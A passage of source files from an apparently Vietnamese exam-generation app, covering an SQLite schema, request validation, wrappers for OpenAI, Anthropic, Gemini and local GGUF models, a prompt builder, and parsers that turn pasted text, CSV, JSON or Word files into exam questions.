-- cung muc voi LLM_SETTINGS.api_key.
CREATE TABLE IF NOT EXISTS SYNC_SETTINGS (
  id             INTEGER PRIMARY KEY CHECK (id = 1),
  github_token   TEXT,
  gist_id        TEXT,
  last_synced_at TEXT
);

-- User templates only. Built-in templates live in the versioned code manifest.
CREATE TABLE IF NOT EXISTS TEMPLATE (
  template_id      TEXT PRIMARY KEY,
  current_version  INTEGER NOT NULL CHECK (current_version >= 1),
  deleted_at       TEXT,
  created_at       TEXT NOT NULL DEFAULT (strftime('%Y-%m-%dT%H:%M:%SZ','now')),
  updated_at       TEXT NOT NULL DEFAULT (strftime('%Y-%m-%dT%H:%M:%SZ','now'))
);

CREATE TABLE IF NOT EXISTS TEMPLATE_VERSION (
  template_id       TEXT NOT NULL REFERENCES TEMPLATE(template_id) ON DELETE CASCADE,
  template_version  INTEGER NOT NULL CHECK (template_version >= 1),
  payload_json      TEXT NOT NULL,
  created_at        TEXT NOT NULL DEFAULT (strftime('%Y-%m-%dT%H:%M:%SZ','now')),
  PRIMARY KEY (template_id, template_version)
);
`;

async function getDb() {
  if (dbInstance) return dbInstance;
  dbInstance = await open({ filename: DB_PATH, driver: sqlite3.Database });
  await dbInstance.exec(SCHEMA_SQL);
  return dbInstance;
}

async function closeDb() {
  if (dbInstance) {
    await dbInstance.close();
    dbInstance = null;
  }
}

module.exports = { getDb, closeDb };

```

### FILE: backend/errorHandler.js

```javascript
/**
 * Middleware xu ly loi toan cuc: dam bao moi loi (ke ca loi parse JSON body
 * cua express.json() truoc khi vao duoc route handler) deu tra ve cung 1
 * dinh dang JSON { success:false, error } thay vi trang loi HTML mac dinh
 * cua Express.
 */
function errorHandler(err, req, res, next) {
  if (err.type === 'entity.parse.failed' || (err instanceof SyntaxError && 'body' in err)) {
    return res.status(400).json({ success: false, error: 'Du lieu JSON gui len khong hop le' });
  }
  console.error(err);
  res.status(500).json({ success: false, error: 'Loi may chu noi bo' });
}

module.exports = { errorHandler };

```

### FILE: backend/examValidation.js

```javascript
const VALID_BLOCK_TYPES = ['MULTIPLE_CHOICE', 'ESSAY'];
const VALID_QUESTION_TYPES = ['MCQ', 'FILL_BLANK', 'TRUE_FALSE', 'ESSAY'];
const VALID_DIFFICULTY_LEVELS = ['NB', 'TH', 'VD', 'VDC'];

/**
 * Doi chieu lai cac quy tac nghiep vu ma tang parser o frontend da dam bao
 * (xem backend/parser/TextPromptParser.js) truoc khi ghi CSDL, vi mot client
 * goi thang API co the bo qua tang parser do. Dung chung cho ca
 * POST /api/exams/save (link chia se) lan POST /api/archive (kho de).
 */
function validateExamPayload(blocks) {
  const errors = [];
  if (!Array.isArray(blocks)) {
    return ['blocks phai la mot mang'];
  }
  blocks.forEach((block, bi) => {
    if (!VALID_BLOCK_TYPES.includes(block.block_type)) {
      errors.push(`Khoi ${bi + 1}: block_type khong hop le ("${block.block_type}")`);
    }
    const questions = block.questions || [];
    questions.forEach((q, qi) => {
      const loc = `Khoi ${bi + 1} - Cau ${qi + 1}`;
      if (!VALID_QUESTION_TYPES.includes(q.question_type)) {
        errors.push(`${loc}: question_type khong hop le ("${q.question_type}")`);
      }
      if (!q.content || !String(q.content).trim()) {
        errors.push(`${loc}: thieu noi dung cau hoi`);
      }
      if (q.difficulty_level && !VALID_DIFFICULTY_LEVELS.includes(q.difficulty_level)) {
        errors.push(`${loc}: difficulty_level khong hop le ("${q.difficulty_level}")`);
      }
      if (q.question_type === 'MCQ') {
        const options = q.options || [];
        if (options.length < 2) {
          errors.push(`${loc}: cau trac nghiem can it nhat 2 lua chon`);
        } else if (q.correct_answer && !options.some(o => o.option_key === q.correct_answer)) {
          errors.push(`${loc}: correct_answer khong khop voi bat ky lua chon nao`);
        }
        const keys = options.map(o => o.option_key);
        if (new Set(keys).size !== keys.length) {
          errors.push(`${loc}: co lua chon bi trung option_key`);
        }
      }
      if (q.question_type === 'TRUE_FALSE' && q.correct_answer && !['Dung', 'Sai'].includes(q.correct_answer)) {
        errors.push(`${loc}: correct_answer phai la "Dung" hoac "Sai"`);
      }
    });
  });
  return errors;
}

module.exports = {
  VALID_BLOCK_TYPES,
  VALID_QUESTION_TYPES,
  VALID_DIFFICULTY_LEVELS,
  validateExamPayload
};

```

### FILE: backend/llm/AnthropicProvider.js

```javascript
const { ILLMProvider } = require('./ILLMProvider');

const DEFAULT_TIMEOUT_MS = 120000;
const ANTHROPIC_VERSION = '2023-06-01';
const MAX_TOKENS = 8192;

class AnthropicProvider extends ILLMProvider {
  constructor(apiKey, modelName) {
    super();
    this.apiKey = apiKey;
    this.modelName = modelName;
  }

  async generate(prompt) {
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), DEFAULT_TIMEOUT_MS);

    let res;
    try {
      res = await fetch('https://api.anthropic.com/v1/messages', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
          'x-api-key': this.apiKey,
          'anthropic-version': ANTHROPIC_VERSION
        },
        body: JSON.stringify({
          model: this.modelName,
          max_tokens: MAX_TOKENS,
          messages: [{ role: 'user', content: prompt }]
        }),
        signal: controller.signal
      });
    } catch (err) {
      if (err.name === 'AbortError') {
        throw new Error('Anthropic: het thoi gian cho phan hoi (timeout)');
      }
      throw new Error(`Anthropic: khong the ket noi (${err.message})`);
    } finally {
      clearTimeout(timeout);
    }

    if (!res.ok) {
      const body = await res.text().catch(() => '');
      throw new Error(`Anthropic: loi API (HTTP ${res.status}) - ${body}`);
    }

    const data = await res.json();
    const text = data?.content?.[0]?.text;
    if (!text) {
      throw new Error('Anthropic: phan hoi khong chua noi dung');
    }
    return text;
  }

  async listModels() {
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), DEFAULT_TIMEOUT_MS);

    let res;
    try {
      res = await fetch('https://api.anthropic.com/v1/models', {
        headers: {
          'x-api-key': this.apiKey,
          'anthropic-version': ANTHROPIC_VERSION
        },
        signal: controller.signal
      });
    } catch (err) {
      if (err.name === 'AbortError') {
        throw new Error('Anthropic: het thoi gian cho phan hoi (timeout)');
      }
      throw new Error(`Anthropic: khong the ket noi (${err.message})`);
    } finally {
      clearTimeout(timeout);
    }

    if (!res.ok) {
      const body = await res.text().catch(() => '');
      throw new Error(`Anthropic: loi API (HTTP ${res.status}) - ${body}`);
    }

    const data = await res.json();
    return (data?.data || [])
      .filter(m => m?.id)
      .map(m => ({ id: m.id, display_name: m.display_name || m.id }));
  }
}

module.exports = { AnthropicProvider };

```

### FILE: backend/llm/GeminiProvider.js

```javascript
const { ILLMProvider } = require('./ILLMProvider');

const DEFAULT_TIMEOUT_MS = 120000;

class GeminiProvider extends ILLMProvider {
  constructor(apiKey, modelName) {
    super();
    this.apiKey = apiKey;
    this.modelName = modelName;
  }

  async generate(prompt) {
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), DEFAULT_TIMEOUT_MS);
    const url = `https://generativelanguage.googleapis.com/v1beta/models/${encodeURIComponent(this.modelName)}:generateContent?key=${encodeURIComponent(this.apiKey)}`;

    let res;
    try {
      res = await fetch(url, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          contents: [{ parts: [{ text: prompt }] }]
        }),
        signal: controller.signal
      });
    } catch (err) {
      if (err.name === 'AbortError') {
        throw new Error('Gemini: het thoi gian cho phan hoi (timeout)');
      }
      throw new Error(`Gemini: khong the ket noi (${err.message})`);
    } finally {
      clearTimeout(timeout);
    }

    if (!res.ok) {
      const body = await res.text().catch(() => '');
      throw new Error(`Gemini: loi API (HTTP ${res.status}) - ${body}`);
    }

    const data = await res.json();
    const text = data?.candidates?.[0]?.content?.parts?.map(p => p.text || '').join('');
    if (!text) {
      throw new Error('Gemini: phan hoi khong chua noi dung');
    }
    return text;
  }

  async listModels() {
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), DEFAULT_TIMEOUT_MS);
    const url = `https://generativelanguage.googleapis.com/v1beta/models?key=${encodeURIComponent(this.apiKey)}&pageSize=1000`;

    let res;
    try {
      res = await fetch(url, { signal: controller.signal });
    } catch (err) {
      if (err.name === 'AbortError') {
        throw new Error('Gemini: het thoi gian cho phan hoi (timeout)');
      }
      throw new Error(`Gemini: khong the ket noi (${err.message})`);
    } finally {
      clearTimeout(timeout);
    }

    if (!res.ok) {
      const body = await res.text().catch(() => '');
      throw new Error(`Gemini: loi API (HTTP ${res.status}) - ${body}`);
    }

    const data = await res.json();
    return (data?.models || [])
      .filter(m => Array.isArray(m?.supportedGenerationMethods) && m.supportedGenerationMethods.includes('generateContent'))
      .map(m => {
        const id = (m.name || '').replace(/^models\//, '');
        return { id, display_name: m.displayName || id };
      })
      .filter(m => m.id);
  }
}

module.exports = { GeminiProvider };

```

### FILE: backend/llm/ILLMProvider.js

```javascript
class ILLMProvider {
  async generate(prompt) {
    throw new Error('generate() chua duoc trien khai');
  }
}

module.exports = { ILLMProvider };

```

### FILE: backend/llm/LocalGgufProvider.js

```javascript
const { ILLMProvider } = require('./ILLMProvider');

// node-llama-cpp la goi thuan ESM; backend con lai dung CommonJS nen phai
// nap bang dynamic import() ngay trong ham async thay vi require() thong
// thuong. Nap 1 model (.gguf) ton kha nhieu thoi gian/RAM nen cache lai
// theo filePath de khong phai nap lai moi lan sinh de.
const sessionCache = new Map();

async function getOrCreateSession(filePath) {
  if (sessionCache.has(filePath)) {
    return sessionCache.get(filePath);
  }

  const { getLlama, LlamaChatSession } = await import('node-llama-cpp');
  const llama = await getLlama();
  const model = await llama.loadModel({ modelPath: filePath });
  const context = await model.createContext();
  const session = new LlamaChatSession({ contextSequence: context.getSequence() });

  sessionCache.set(filePath, session);
  return session;
}

class LocalGgufProvider extends ILLMProvider {
  constructor(filePath) {
    super();
    this.filePath = filePath;
  }

  async generate(prompt) {
    let session;
    try {
      session = await getOrCreateSession(this.filePath);
    } catch (err) {
      throw new Error(`Model local: khong the nap file .gguf (${err.message})`);
    }

    try {
      return await session.prompt(prompt);
    } catch (err) {
      throw new Error(`Model local: loi khi sinh noi dung (${err.message})`);
    }
  }
}

module.exports = { LocalGgufProvider };

```

### FILE: backend/llm/OpenAIProvider.js

```javascript
const { ILLMProvider } = require('./ILLMProvider');

const DEFAULT_TIMEOUT_MS = 120000;

class OpenAIProvider extends ILLMProvider {
  constructor(apiKey, modelName) {
    super();
    this.apiKey = apiKey;
    this.modelName = modelName;
  }

  async generate(prompt) {
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), DEFAULT_TIMEOUT_MS);

    let res;
    try {
      res = await fetch('https://api.openai.com/v1/chat/completions', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
          Authorization: `Bearer ${this.apiKey}`
        },
        body: JSON.stringify({
          model: this.modelName,
          // Khong gui temperature: model reasoning (o-series, gpt-5...) chi
          // chap nhan gia tri mac dinh va tra HTTP 400 neu gui 0.7.
          messages: [{ role: 'user', content: prompt }]
        }),
        signal: controller.signal
      });
    } catch (err) {
      if (err.name === 'AbortError') {
        throw new Error('OpenAI: het thoi gian cho phan hoi (timeout)');
      }
      throw new Error(`OpenAI: khong the ket noi (${err.message})`);
    } finally {
      clearTimeout(timeout);
    }

    if (!res.ok) {
      const body = await res.text().catch(() => '');
      throw new Error(`OpenAI: loi API (HTTP ${res.status}) - ${body}`);
    }

    const data = await res.json();
    const text = data?.choices?.[0]?.message?.content;
    if (!text) {
      throw new Error('OpenAI: phan hoi khong chua noi dung');
    }
    return text;
  }

  async listModels() {
    const controller = new AbortController();
    const timeout = setTimeout(() => controller.abort(), DEFAULT_TIMEOUT_MS);

    let res;
    try {
      res = await fetch('https://api.openai.com/v1/models', {
        headers: { Authorization: `Bearer ${this.apiKey}` },
        signal: controller.signal
      });
    } catch (err) {
      if (err.name === 'AbortError') {
        throw new Error('OpenAI: het thoi gian cho phan hoi (timeout)');
      }
      throw new Error(`OpenAI: khong the ket noi (${err.message})`);
    } finally {
      clearTimeout(timeout);
    }

    if (!res.ok) {
      const body = await res.text().catch(() => '');
      throw new Error(`OpenAI: loi API (HTTP ${res.status}) - ${body}`);
    }

    const data = await res.json();
    const NON_CHAT = /embedding|whisper|tts|dall-e|moderation|audio|realtime|transcribe|image/i;
    return (data?.data || [])
      .filter(m => m?.id && !NON_CHAT.test(m.id))
      .sort((a, b) => (b.created || 0) - (a.created || 0))
      .map(m => ({ id: m.id, display_name: m.id }));
  }
}

module.exports = { OpenAIProvider };

```

### FILE: backend/llm/ProviderFactory.js

```javascript
const { OpenAIProvider } = require('./OpenAIProvider');
const { AnthropicProvider } = require('./AnthropicProvider');
const { GeminiProvider } = require('./GeminiProvider');
const { LocalGgufProvider } = require('./LocalGgufProvider');

const CLOUD_PROVIDERS = {
  openai: OpenAIProvider,
  anthropic: AnthropicProvider,
  gemini: GeminiProvider
};

/**
 * modelRow: 1 dong tu bang LLM_MODEL.
 * apiKey: chi can thiet khi modelRow.source_type === 'cloud' (lay tu bang
 * LLM_SETTINGS theo modelRow.provider truoc khi goi ham nay).
 */
function createProvider(modelRow, apiKey) {
  if (!modelRow) {
    throw new Error('Khong tim thay model da chon');
  }

  if (modelRow.source_type === 'local_gguf') {
    if (!modelRow.file_path) {
      throw new Error(`Model local "${modelRow.display_name}" thieu file_path`);
    }
    return new LocalGgufProvider(modelRow.file_path);
  }

  if (modelRow.source_type === 'cloud') {
    const ProviderClass = CLOUD_PROVIDERS[modelRow.provider];
    if (!ProviderClass) {
      throw new Error(`Provider cloud khong hop le: "${modelRow.provider}"`);
    }
    if (!apiKey) {
      throw new Error(`Chua cau hinh API key cho provider "${modelRow.provider}"`);
    }
    return new ProviderClass(apiKey, modelRow.model_name);
  }

  throw new Error(`source_type khong hop le: "${modelRow.source_type}"`);
}

/**
 * Lay danh sach model kha dung tu API cua 1 provider cloud, dung apiKey da co
 * (chua chon model_name vi day chinh la buoc tim model_name).
 */
function listModelsFor(provider, apiKey) {
  const ProviderClass = CLOUD_PROVIDERS[provider];
  if (!ProviderClass) {
    throw new Error(`Provider cloud khong hop le: "${provider}"`);
  }
  if (!apiKey) {
    throw new Error(`Chua cau hinh API key cho provider "${provider}"`);
  }
  return new ProviderClass(apiKey, null).listModels();
}

module.exports = { createProvider, listModelsFor };

```

### FILE: backend/llm/promptBuilder.js

```javascript
const fs = require('fs');
const path = require('path');

const TEMPLATE_PATH = path.join(__dirname, '..', '..', 'Gemini_Prompt_Unified.txt');

/**
 * Trich doan "PHAN 2 - PROMPT" trong Gemini_Prompt_Unified.txt - day la phan
 * huong dan dinh dang ma TextPromptParser hieu duoc. Tai su dung nguyen van
 * thay vi viet lai, de luon dong bo voi dinh dang giao vien dang dan tay.
 */
function extractFormatInstructions() {
  const fileText = fs.readFileSync(TEMPLATE_PATH, 'utf8');
  const startMatch = fileText.match(/PHẦN 2[^\n]*\n=+\n/);
  const endMatch = fileText.match(/\n=+\n\(kết thúc PROMPT\)/);
  if (!startMatch || !endMatch) {
    throw new Error('Khong trich xuat duoc huong dan dinh dang tu Gemini_Prompt_Unified.txt');
  }
  const start = startMatch.index + startMatch[0].length;
  return fileText.slice(start, endMatch.index).trim();
}

function formatQuestionSpec(questionSpec) {
  if (!Array.isArray(questionSpec) || questionSpec.length === 0) return '';
  const lines = questionSpec.map(s => `- ${s.so_luong} câu loại "${s.loai}", mức độ "${s.muc_do}"`);
  return `YÊU CẦU SỐ LƯỢNG CÂU HỎI:\n${lines.join('\n')}`;
}

/**
 * sectionsContent: mang cac chuoi noi dung (tu RESOURCE_SECTION) da duoc
 * giao vien chon lam ngu canh.
 * questionSpec: mang { loai, muc_do, so_luong } theo dung tu vung Loai/Muc_Do
 * ma TextPromptParser dang dung (TN/DUNG_SAI/DIEN_TU/TU_LUAN, Nhan_Biet/...).
 * extraInstructions: yeu cau tu do nguoi dung go them (vd phong cach de, do kho
 * cu the...) - chi la phan bo sung, khong duoc thay the huong dan dinh dang.
 */
function buildPrompt({ topic, sectionsContent = [], questionSpec = [], extraInstructions = '' }) {
  const instructions = extractFormatInstructions().replace(
    '[NHẬP MÔN HỌC/CHỦ ĐỀ Ở ĐÂY]',
    topic || 'chủ đề chưa được nêu cụ thể'
  );

  const parts = [instructions];

  if (sectionsContent.length > 0) {
    parts.push(
      'NGỮ CẢNH THAM KHẢO (dựa vào nội dung sau để ra đề, không bịa kiến thức ngoài phạm vi này):\n' +
      sectionsContent.join('\n\n---\n\n')
    );
  }

  const specText = formatQuestionSpec(questionSpec);
  if (specText) parts.push(specText);

  if (extraInstructions && extraInstructions.trim()) {
    parts.push(
      'YÊU CẦU BỔ SUNG TỪ NGƯỜI DÙNG (ưu tiên áp dụng, nhưng vẫn phải tuân thủ đúng định dạng ở trên):\n' +
      extraInstructions.trim()
    );
  }

  return parts.join('\n\n');
}

function buildRetryPrompt(originalPrompt, errorMessage) {
  return `${originalPrompt}\n\n---\nLẦN TRƯỚC BẠN TRẢ VỀ SAI ĐỊNH DẠNG, LỖI CỤ THỂ:\n${errorMessage}\nHãy sửa lại và CHỈ trả về đúng định dạng theo hướng dẫn ở trên, không thêm giải thích nào khác ngoài định dạng đó.`;
}

module.exports = { buildPrompt, buildRetryPrompt, extractFormatInstructions };

```

### FILE: backend/mutex.js

```javascript
let queue = Promise.resolve();

/**
 * Xep hang cac ham bat dong bo de chi 1 ham chay tai 1 thoi diem, theo dung
 * thu tu goi. Can thiet vi ung dung dung 1 ket noi SQLite dung chung cho
 * moi request (xem backend/database.js) - neu 2 request cung goi
 * `BEGIN TRANSACTION` xen ke nhau tren cung 1 ket noi, SQLite se nem loi
 * "cannot start a transaction within a transaction" ngay lap tuc.
 */
function withLock(fn) {
  const result = queue.then(() => fn());
  queue = result.then(() => {}, () => {}); // hang doi tiep tuc du fn() thanh cong hay that bai
  return result;
}

module.exports = { withLock };

```

### FILE: backend/parser/FileUploadParser.js

```javascript
import { IQuestionParser } from './IQuestionParser.js';
import { TextPromptParser } from './TextPromptParser.js';
import { formatMathSymbols } from './mathFormat.js';

const TYPE_MAP = { TN: 'MCQ', DIEN_TU: 'FILL_BLANK', DUNG_SAI: 'TRUE_FALSE', TU_LUAN: 'ESSAY' };
const DIFFICULTY_MAP = { nhan_biet: 'NB', thong_hieu: 'TH', van_dung: 'VD', van_dung_cao: 'VDC' };

export class FileUploadParser extends IQuestionParser {
  /**
   * Diem vao chinh danh cho trinh duyet: nhan mot doi tuong File (tu
   * <input type="file">), tu quyet dinh doc dang text hay dang nhi phan
   * (.docx) roi tra ve mang blocks. Cung hoat dong duoc trong Node (Jest)
   * voi doi tuong File toan cuc co san tu Node 20+.
   */
  async parseFile(file) {
    const ext = (file.name || '').split('.').pop().toLowerCase();
    if (ext === 'docx') {
      const arrayBuffer = await file.arrayBuffer();
      return this._parseDocx(arrayBuffer);
    }
    const text = await file.text();
    return this.parse(text, file.name);
  }

  parse(rawContent, fileName = '') {
    const ext = fileName.split('.').pop().toLowerCase();
    if (ext === 'json') return this._parseJSON(rawContent);
    if (ext === 'csv') return this._parseCSV(rawContent);
    if (ext === 'txt') return new TextPromptParser().parse(rawContent);
    throw new Error(`Dinh dang tep khong duoc ho tro: .${ext}. Chi ho tro .json, .csv, .txt, .docx`);
  }

  _loadMammoth() {
    if (typeof window !== 'undefined' && window.mammoth) {
      return window.mammoth;
    }
    // Moi truong Node (chay duoi Jest) - nap goi mammoth cai qua npm.
    return require('mammoth');
  }

  async _parseDocx(arrayBuffer) {
    const mammoth = this._loadMammoth();
    const isBrowser = typeof window !== 'undefined' && window.mammoth;
    let result;
    try {
      result = await mammoth.extractRawText(
        isBrowser ? { arrayBuffer } : { buffer: Buffer.from(arrayBuffer) }
      );
    } catch (err) {
      throw new Error(`Khong the doc noi dung tep Word: ${err.message}`);
    }

    const text = result.value;
    if (!text || !text.trim()) {
      throw new Error('Tep Word khong co noi dung van ban (co the la tep rong hoac chi chua hinh anh/bang).');
    }
    // Van ban trich xuat tu Word phai tuan thu dung cau truc chuan (xem
    // Gemini_Prompt_Template.txt) de TextPromptParser boc tach duoc.
    return new TextPromptParser().parse(text);
  }

  _parseJSON(rawContent) {
    let data;
    try {
      data = JSON.parse(rawContent);
    } catch (err) {
      throw new Error(`Tep JSON khong hop le: ${err.message}`);
    }
    const blocks = Array.isArray(data) ? data : data.blocks;
    if (!Array.isArray(blocks) || blocks.length === 0) {
      throw new Error('Tep JSON phai chua mang "blocks" gom cac khoi cau hoi.');
    }
    blocks.forEach((block, i) => {
      if (!block.block_type || !Array.isArray(block.questions)) {
        throw new Error(`[Khoi ${i + 1}] Thieu "block_type" hoac "questions".`);
      }
    });
    return blocks;
  }

  _parseCSV(rawContent) {
    const rows = this._splitCSVRows(rawContent);
    if (rows.length < 2) {
      throw new Error('Tep CSV can co dong tieu de va it nhat 1 dong du lieu.');
    }
    const header = rows[0].map(h => h.trim().toLowerCase());
    const required = ['section', 'loai', 'muc_do', 'de_bai'];
    for (const col of required) {
      if (!header.includes(col)) {
        throw new Error(`Tep CSV thieu cot bat buoc: "${col}". Cot yeu cau: section, loai, muc_do, de_bai, a, b, c, d, dap_an, loi_giai, so_dong_nhap`);
      }
    }

    const blockMap = new Map();

    rows.slice(1).forEach((row, rIndex) => {
      if (row.every(c => !c.trim())) return;
      const location = `Dong ${rIndex + 2}`;
      const record = {};
      header.forEach((key, i) => { record[key] = (row[i] || '').trim(); });

      const rawType = record['loai'].toUpperCase();
      const questionType = TYPE_MAP[rawType];
      if (!questionType) throw new Error(`[${location}] Cot "loai" khong hop le: "${record['loai']}"`);

      const difficulty = DIFFICULTY_MAP[record['muc_do'].toLowerCase()];
      if (!difficulty) throw new Error(`[${location}] Cot "muc_do" khong hop le: "${record['muc_do']}"`);

      if (!record['de_bai']) throw new Error(`[${location}] Thieu noi dung "de_bai".`);

      const question = {
        question_type: questionType,
        content: formatMathSymbols(record['de_bai']),
        difficulty_level: difficulty,
        explanation: formatMathSymbols(record['loi_giai']) || null,
        correct_answer: null,
        options: [],
        draft_lines_count: 0
      };

      if (questionType === 'MCQ') {
        const options = ['a', 'b', 'c', 'd']
          .filter(k => record[k])
          .map(k => ({ option_key: k.toUpperCase(), option_text: record[k] }));
        if (options.length < 2) throw new Error(`[${location}] Cau trac nghiem can it nhat 2 lua chon.`);
        const correctKey = record['dap_an'].toUpperCase();
        if (!options.some(o => o.option_key === correctKey)) {
          throw new Error(`[${location}] "dap_an" (${correctKey}) khong khop lua chon nao.`);
        }
        question.options = options.map(o => ({ ...o, option_text: formatMathSymbols(o.option_text), is_correct: o.option_key === correctKey }));
        question.correct_answer = correctKey;
      } else if (questionType === 'TRUE_FALSE') {
        if (!/^(Dung|Sai)$/i.test(record['dap_an'])) {
          throw new Error(`[${location}] "dap_an" phai la "Dung" hoac "Sai".`);
        }
        question.correct_answer = record['dap_an'];
      } else if (questionType === 'FILL_BLANK') {
        if (!record['dap_an']) throw new Error(`[${location}] Cau dien tu thieu "dap_an".`);
        question.correct_answer = formatMathSymbols(record['dap_an']);
      } else if (questionType === 'ESSAY') {
        const draftLines = parseInt(record['so_dong_nhap'], 10);
        question.draft_lines_count = Number.isFinite(draftLines) && draftLines > 0 ? draftLines : 5;
        question.correct_answer = formatMathSymbols(record['dap_an']) || null;
      }

      const sectionKey = record['section'] || 'Cau hoi';
      if (!blockMap.has(sectionKey)) {
        blockMap.set(sectionKey, { block_type: 'MULTIPLE_CHOICE', block_title: sectionKey, questions: [] });
      }
      const block = blockMap.get(sectionKey);
      if (questionType === 'ESSAY') block.block_type = 'ESSAY';
      block.questions.push(question);
    });

    return Array.from(blockMap.values());
  }

  _splitCSVRows(rawContent) {
    const rows = [];
    let row = [];
    let field = '';
    let inQuotes = false;
    const text = rawContent.replace(/\r\n/g, '\n');

    for (let i = 0; i < text.length; i++) {
      const c = text[i];
      if (inQuotes) {
        if (c === '"') {
          if (text[i + 1] === '"') { field += '"'; i++; }
          else inQuotes = false;
        } else field += c;
      } else if (c === '"') {
        inQuotes = true;
      } else if (c === ',') {
        row.push(field); field = '';
      } else if (c === '\n') {
        row.push(field); field = '';
        rows.push(row); row = [];
      } else {
        field += c;
      }
    }
    if (field.length > 0 || row.length > 0) { row.push(field); rows.push(row); }
    return rows.filter(r => r.length > 0 && !(r.length === 1 && r[0] === ''));
  }
}

```

### FILE: backend/parser/IQuestionParser.js

```javascript
export class IQuestionParser {
  parse(rawContent) {
    throw new Error('parse() chua duoc trien khai');
  }
}

```

### FILE: backend/parser/TextPromptParser.js

```javascript
import { IQuestionParser } from './IQuestionParser.js';
import { formatMathSymbols } from './mathFormat.js';

const TYPE_MAP = { TN: 'MCQ', DIEN_TU: 'FILL_BLANK', DUNG_SAI: 'TRUE_FALSE', TU_LUAN: 'ESSAY' };
const DIFFICULTY_MAP = { nhan_biet: 'NB', thong_hieu: 'TH', van_dung: 'VD', van_dung_cao: 'VDC' };
const FIELD_REGEX = /^(Loai|Muc_Do|De_Bai|Dap_An|Loi_Giai|So_Dong_Nhap)\s*:\s*(.*)$/i;
const OPTION_REGEX = /^([A-D])\.\s*(.*)$/;
const TITLE_MAP = { 'trac nghiem': 'Trắc nghiệm', 'tu luan': 'Tự luận' };
// Danh sach nhan truong dung de "va lai" xuong dong bi mat (xem
// _repairMissingNewlines) - phai trung khop chinh xac voi FIELD_REGEX o tren.
const FIELD_NAMES = 'Loai|Muc_Do|De_Bai|Dap_An|Loi_Giai|So_Dong_Nhap';

export class TextPromptParser extends IQuestionParser {
  parse(rawContent) {
    if (typeof rawContent !== 'string' || !rawContent.trim()) {
      throw new Error('Noi dung dan vao dang rong.');
    }

    const blocks = [];
    const sections = this._splitSections(this._repairMissingNewlines(rawContent));

    sections.forEach((section, sIndex) => {
      const chunks = section.body.split(/\[CAU_HOI\]/i).map(s => s.trim()).filter(Boolean);
      if (chunks.length === 0) return;

      const questions = chunks.map((chunk, qIndex) =>
        this._parseQuestionChunk(chunk, sIndex + 1, qIndex + 1)
      );

      const blockType = questions.some(q => q.question_type === 'ESSAY') ? 'ESSAY' : 'MULTIPLE_CHOICE';
      blocks.push({ block_type: blockType, block_title: section.title, questions });
    });

    if (blocks.length === 0) {
      throw new Error('Khong tim thay khoi cau hoi nao. Kiem tra dinh dang =...= va [CAU_HOI].');
    }
    return blocks;
  }

  // Mot so nguon dan (vd copy tu khung chat, PDF, Word) lam mat het ky tu
  // xuong dong that (\n), don toan bo noi dung ve 1 dong duy nhat. Vi toan
  // bo _splitSections/_parseQuestionChunk deu dua vao xuong dong de tach
  // "=PHAN_x=", "[CAU_HOI]" va tung truong (Loai:/Muc_Do:/...), mat xuong
  // dong se lam parser hieu sai hoan toan (vd noi dung mo dau bi tuong la
  // "Cau hoi 1"). Ham nay "va lai" xuong dong tai cac vi tri co cau truc da
  // biet TRUOC KHI parse - chi chen them, khong bao gio xoa noi dung, va an
  // toan voi input da dung dinh dang (dong trong du thua bi bo qua o buoc
  // parse sau, xem `if (!line) continue;`).
  _repairMissingNewlines(rawContent) {
    let text = rawContent;
    // 1) [CAU_HOI] va header "=PHAN...=" luon phai bat dau 1 dong moi, ke ca
    //    khi bi dinh lien vao cuoi dong truoc. Header chi xu ly rieng ten
    //    bat dau bang "PHAN" (dung quy uoc trong Gemini_Prompt_Unified.txt)
    //    de tranh nham voi bieu thuc toan co nhieu dau "=" (vd "x = 3 = y").
    text = text.replace(/\[CAU_HOI\]/gi, '\n[CAU_HOI]');
    // Bat toan bo chuoi dau "=" lien tiep o ca 2 dau (=+...=+, khong phai chi
    // 1 dau "=") - neu chi bat 1 dau se xe le cac header kieu "===TEN==="
    // (con 2 dau "=" dinh vao dong ben canh, hong ca header). Lookbehind
    // dam bao chi chen dong khi CHUA co dong moi (tranh tao section rong o
    // dau, lam lech so thu tu "Phan N" trong thong bao loi cho input da
    // dung dinh dang san).
    text = text.replace(/(?<=[^=\n])(=+\s*PHAN[A-Za-z0-9_]*\s*=+)/gi, '\n$1');
    // 2) Moi nhan truong (Loai:, Muc_Do:...) luon phai bat dau 1 dong moi.
    // Khong dung \b truoc ten truong: khi bi dinh lien hoan toan (vd
    // "TNMuc_Do:") thi 2 ky tu ke nhau ("N" va "M") deu la ky tu chu nen \b
    // khong nhan ra ranh gioi, bo sot mat xuong dong dung luc can vá nhat.
    text = text.replace(new RegExp(`(${FIELD_NAMES})\\s*:`, 'gi'), '\n$1:');
    // 3) Giua "De_Bai:" va "Dap_An:" (da chac chan xuong dong tu buoc 2), neu
    //    cac lua chon A./B./C./D. bi dinh lien khong xuong dong thi tach ra.
    text = text.replace(/(De_Bai\s*:)([\s\S]*?)(\n\s*Dap_An\s*:)/gi, (full, before, body, after) =>
      before + this._splitOptionsInPlace(body) + after
    );
    return text;
  }

  // Tim day du lua chon A./(B.)/(C.)/(D.) tu PHAI sang TRAI (gan "Dap_An:"
  // nhat) va chen xuong dong truoc moi lua chon. Tim tu phai sang trai (uu
  // tien 4 lua chon, giam dan con 2) de khong nham voi ten diem/tam giac
  // viet hoa lien nhau xuat hien som hon trong De_Bai (vd "tam giac ABC."
  // chi co "C." dung dinh dang cham cau, khong co "A."/"B." rieng nen se
  // khong khop du chuoi va bi bo qua an toan).
  _splitOptionsInPlace(body) {
    for (const letters of [['A', 'B', 'C', 'D'], ['A', 'B', 'C'], ['A', 'B']]) {
      const positions = [];
      let searchEnd = body.length;
      let matched = true;
      for (let i = letters.length - 1; i >= 0; i--) {
        const idx = body.lastIndexOf(letters[i] + '.', searchEnd - 1);
        if (idx === -1) { matched = false; break; }
        positions[i] = idx;
        searchEnd = idx;
      }
      if (matched) {
        let result = body;
        for (let i = positions.length - 1; i >= 0; i--) {
          result = result.slice(0, positions[i]) + '\n' + result.slice(positions[i]);
        }
        return result;
      }
    }
    return body;
  }

  _splitSections(rawContent) {
    const lines = rawContent.split(/\r?\n/);
